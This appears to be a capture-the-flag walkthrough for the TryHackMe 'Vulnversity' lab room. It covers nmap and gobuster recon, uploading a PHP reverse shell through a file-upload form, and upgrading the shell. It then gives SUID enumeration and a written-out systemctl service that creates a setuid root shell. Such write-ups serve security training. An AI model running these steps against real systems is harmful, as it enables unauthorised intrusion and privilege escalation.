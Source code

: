 # Vulnversity

link to the room [`https://tryhackme.com/room/vulnversity`]

`export ip=10.10.233.95`


## Recon

### Nmap

command: `nmap -sC -sV -v -O -oN recon/nmap $ip`

### Gobuster

command: `gobuster -u http://$ip:3333 -e -w ~/Personal/tools/wordlists/dirbuster/directory-list-2.3-small.txt -o recon/gobuster`

## TASK

- found `/internal/` form for upload a file.
- use `phpext.txt` into intruder burp with grep exact.
- upload a php reverse shell.
- upgrade shell:
    - semi interactive with python spawn: `/usr/bin/python3.5 -c 'import pty; pty.spawn("/bin/bash")'`
    - `export TERM=xterm`
    - cntrl+z
    - `stty raw -echo`
    - fg & reset

- privesc using SUID files:
``` 
find / -user root -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

- found systemctl check this : `https://gtfobins.github.io/gtfobins/systemctl/`

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/sh /tmp/rootsh && chmod +xs /tmp/rootsh"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```